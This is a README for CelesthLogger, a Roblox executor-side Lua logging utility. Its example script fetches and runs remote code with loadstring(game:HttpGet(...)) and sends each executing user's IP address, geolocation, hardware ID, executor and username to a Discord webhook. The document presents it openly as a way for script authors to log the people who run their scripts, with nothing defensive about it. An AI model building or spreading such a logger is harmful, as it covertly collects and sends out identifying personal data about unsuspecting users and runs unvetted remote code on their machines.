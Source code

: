 # CelesthLogger

**CelesthLogger** is a Roblox executor-side logging utility that sends detailed webhook logs to Discord.

## 🔧 Features

- IP logging (`https://v4.ident.me`)
- Geo info from `ip-api.com`
- HWID (ClientId)
- Executor detection
- One-time user logging (`stellarium/logged.txt`)
- Cooldown logic (`G_.LastSent`)
- Customizable embed data
- Optional file logging (`:SendFile`)

## 📦 Example Usage

```lua
_G.IpLog = true
_G.GeoLog = true
_G.HwidLog = true
_G.ExecutorLog = true
_G.JobIdLog = true
_G.IgnoreLoggedCheck = false
_G.IgnoreCooldown = false
_G.WebhookCooldown = 60
_G.PingEveryone = true
_G.EmbedTitle = "🚨 Celesth Logger"
_G.EmbedMessage = "User executed your script"
_G.EmbedColor = 16711680
_G.EmbedThumbnail = "https://www.roblox.com/headshot-thumbnail/image?userId="..game.Players.LocalPlayer.UserId.."&width=150&height=150&format=png"

local Celesth = loadstring(game:HttpGet("https://raw.githubusercontent.com/Celesth/celes.wh/main/mainUtils.luau"))()

Celesth:Log("https://discord.com/api/webhooks/...")

Celesth:SendFile("https://discord.com/api/webhooks/...", "log.txt", "Executed by "..game.Players.LocalPlayer.Name, "📁 Log attached")

